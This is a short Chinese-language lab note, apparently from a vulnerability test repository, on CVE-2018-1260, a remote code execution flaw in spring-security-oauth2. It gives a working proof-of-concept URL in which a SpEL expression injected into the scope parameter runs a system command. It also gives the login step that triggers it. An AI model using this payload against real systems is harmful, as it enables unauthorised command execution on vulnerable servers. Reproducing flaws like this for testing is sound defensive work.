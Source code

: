 ## RCE with spring-security-oauth2【CVE-2018-1260】

测试镜像

- src/spring-security-oauth2/2.0.10

影响版本

- spring-security-oauth2 <= 2.0.10

参考链接

- [RCE with spring-security-oauth2 分析](https://paper.seebug.org/371/)

Poc

访问url：

```
http://127.0.0.1/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22whoami%22%29%7D
```

在返回的登陆页面随意输入账号密码，点击login，触发命令执行
